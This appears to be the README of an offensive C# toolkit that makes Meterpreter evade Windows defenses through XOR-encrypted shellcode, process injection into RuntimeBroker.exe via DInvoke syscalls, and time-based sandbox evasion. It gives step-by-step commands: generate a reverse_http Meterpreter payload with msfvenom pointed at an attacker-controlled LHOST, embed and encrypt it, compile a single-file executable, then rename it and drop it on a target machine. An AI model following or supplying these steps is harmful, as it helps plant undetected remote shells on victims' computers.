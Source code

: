 # Windows Defense Evasion

Meterpreter isn't a stealthy tool. These 2 c# projects attempts to make it more stealthy, by using:
- [T1027.010] Obfuscated Files or Information: Command Obfuscation (Multiple XOR encryption) 
- [T1055.002] Process Injection: Portable Executable Injection (DInvoke syscalls on each instance of RuntimeBroker.exe)
- [T1497.003] Virtualization/Sandbox Evasion: Time Based Evasion (Random sleep functions and random functions)
- [T1027.013] Obfuscated Files or Information: Encrypted/Encoded File (Multiple XOR encryption )

# XOR
Generate a payload with **msfvenom**:\
`msfvenom -p windows/x64/meterpreter/reverse_http LHOST=<ip> LPORT=<port> -f csharp`

Copy the content and take note of the buffer size. Edit the source code, by pasting the payload and by adjusting the buffer size, then compile the program:\
`dotnet publish -p:PublishSingleFile=true -r win-x64 -c Release --self-contained true -p:PublishTrimmed=true`

Go to the location where the program has been compiled on `.\bin\Release\net7.0\win-x64\publish`:\
`.\xor_payload.exe`

# Payload
Edit the source code with the XOR encrypted payload, then compile the program:\
`dotnet publish -p:PublishSingleFile=true -r win-x64 -c Release --self-contained true -p:PublishTrimmed=true`

Rename the program and drop it to the computer.